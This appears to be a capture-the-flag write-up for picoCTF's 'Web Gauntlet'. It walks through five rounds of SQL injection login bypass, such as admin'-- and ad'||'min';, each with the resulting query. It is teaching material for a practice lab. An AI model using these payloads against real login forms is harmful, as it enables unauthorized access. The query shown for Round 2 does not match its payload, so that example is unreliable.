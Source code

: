 ```yaml
---

title: "Web Gauntlet"  
date: "2024-10-16"  
thumbnail: "/assets/img/thumbnail/Web_Gauntlet.png"

---
```


# Web Gauntlet

---

**Challenges Difficulty: Medium**  
**Category: Web Exploitation**

## Introduction  
This series focuses on the fundamentals of SQL Injection vulnerability. Check out [A03:2021-Injection](https://owasp.org/www-community/attacks/SQL_Injection).

## WALKTHROUGH  
This challenge is from the picoCTF 2020 Mini-Competition.

#### Hints:
1. You are not allowed to log in with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters, it may be hard to see the characters. Always (always) look at the raw hex in the response.
4. SQLite is used.
5. If your cookie keeps getting reset, try using a private browser window.

![Challenge 1](/assets/img/posts/post-2/chal.png)

The challenge gives us two links as shown above. The first one is a login page, and the second shows us what the round filters. \
## Round 1 
For the first round, it filters out **or**, so we can still use **--** to comment out the rest of the query.

---

**Username:** `admin'--`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'-- AND password='123'
```

---
## Round 2
Now we are in round 2, and it filters out the following: **or**, **like**, **=**, and **--**.  
We shall try to use an alternative method, like **union**, to continue.

---

**Username:** `admin'union select * from users where '1;`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---
## Round 3
In round 3, it filters **or**, **=**, **like**, **>**, **<**, and **--**. We can use **;** to end the query.
In SQL, the semicolon is a statement terminator, meaning it marks the end of a SQL statement. It tells the database engine that the statement is complete and ready to be executed

---

**Username:** `admin';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---
## Round 4
Round 4 is a little more creative as it filters out **or**, **=**, **like**, **>**, **<**, **--**, and **admin**.  
Admin?? 🙂 Don’t panic, no problem! 😅  
In SQL, the `||` operator is commonly used for string concatenation, especially in databases like SQLite. If the application’s underlying SQL query uses this operator correctly, entering `ad'||'min'` would result in the following behavior:

```sql
SELECT * FROM users WHERE username='admin';
```

And this is what we want.
---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---
## Round 5
We are in the final round—good job! ✌  
In the final round, it filters **and**, **=**, **like**, **>**, **<**, **--**, **union**, and **admin**, but we will use the same method as in the previous round.

---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

Congrats! You won! Check out `filter.php`.  
![solution](/assets/img/posts/post-2/sol.png)

Many thanks to [onealmond](https://github.com/onealmond) as his write-up helped me a lot in solving this challenge.

---